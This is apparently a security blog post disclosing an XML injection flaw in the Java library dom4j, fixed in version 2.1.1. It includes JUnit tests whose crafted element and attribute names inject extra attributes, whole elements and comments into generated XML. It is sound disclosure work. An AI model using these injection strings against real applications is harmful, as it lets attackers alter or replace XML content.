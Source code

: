 +++
title = "XML Injection in dom4j library"
description = "Brief summary of a vulnerabitity on dom4j by inject XML on element and attribute names"
date = 2018-07-24T13:15:43+10:00
draft = false
toc = false
categories = ["breaking"]
tags = ["xml", "cve", "injection"]
+++

[dom4j](https://dom4j.github.io/) is a well known java library to process and generate XML files.

In version [2.1.1](https://github.com/dom4j/dom4j/releases/tag/version-2.1.1) they fixed an issue regarding a [XML injection on element and attribute names](https://github.com/dom4j/dom4j/issues/48).

<!--more-->

Prior to this version, the values of the elements were properly sanitized, but not the element itself. Same for attribute names. Let me show an example with a test

{{< highlight java "linenos=inline,hl_lines=6 8 20" >}}
    @Test
    public void testXMLInjectionOnElementName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedAttribute = "age=\"20\"";

        Element author = root.addElement("author " + injectedAttribute)
                .addAttribute("name", "James")
                .addAttribute("location", "UK");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedAttribute));
    }
{{< / highlight >}}

Result:
{{< highlight xml >}}  
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author age="20" name="James" location="UK"/>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

On `line 6` lives the attribute we want to inject. The injection happens on `line 8` by adding our attribute to the element name. And finally on `line 20`, the test asserts the line was successfully injected. The injection works successfully in case the element is a self closing element (i.e the element does not have any values). If the element has values the injected attribute is also written in the closing element which breaks any XML parsing.

Things get a bit more interesting when playing around with attributes. It is possible to inject new elements by adding them as attribute names, let me show another test as an example.

{{< highlight java "linenos=inline,hl_lines=6 9 20">}}
    @Test
    public void testXMLInjectionOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:
{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><author name="James" location="UK">James Strachan</author>
  <author name="Bob" location="US">Bob McWhirter</author>
</root>

{{< / highlight >}}

This test is very similar to the previous one. Except that instead to add new attributes to an element, we are adding new elements. Also, we are doing that by inject into attribute names, which means we do not have the constraint anymore about self closing elements! The injection through attribute names are very powerful, an attacker could potentially add as many elements as they want.

Not only that, an attacker could comment other elements as well and effectively replacing them! Here comes the test:

{{< highlight java "linenos=inline,hl_lines=6 9 14 20">}}
    @Test
    public void testCommentOtherElementsOnAttributeName() throws IOException {
        Document document = DocumentHelper.createDocument();
        Element root = document.addElement("root");

        String injectedElement = "<author name=\"hack\" location=\"World\">true</author>";

        Element author = root.addElement("author")
                .addAttribute("name=\"hack\" location=\"World\">true</author><!-- author name", "James")
                .addAttribute("location", "UK")
                .addText("James Strachan");

        Element author2 = root.addElement("author")
                .addAttribute("--><author name", "Bob")
                .addAttribute("location", "US")
                .addText("Bob McWhirter");

        writeFile(document);

        assertThat(document.asXML(), containsString(injectedElement));
    }
{{< / highlight >}}

Result:

{{< highlight xml>}}
<?xml version="1.0" encoding="UTF-8"?>

<root>
  <author name="hack" location="World">true</author><!-- author name="James" location="UK">James Strachan</author>
  <author --><author name="Bob" location="US">Bob McWhirter</author>
</root>
{{< / highlight >}}

It is common place in an application to hardcode element names and attribute names, so this bug is not very likely to be exploitable. However, if an attacker somehow can inject whatever she wants on element and attribute names, she can possibly control the whole content of the file.

Thanks to [@FilipJirsak](https://github.com/FilipJirsak) for the quick response and release of the fixed version. Version 2.1.1 and above are fixed and do not have have the issue anymore. Versions below 2.1.1, including the legacy versions ( < 1.6) are also vulnerable.

## References

- https://github.com/dom4j/dom4j/issues/48 - Github issue describing the bug
- https://github.com/mario-areias/dom4j-xml-injection - Repository with the code described on this blog post
- https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008) - Test for XML injection from OWASP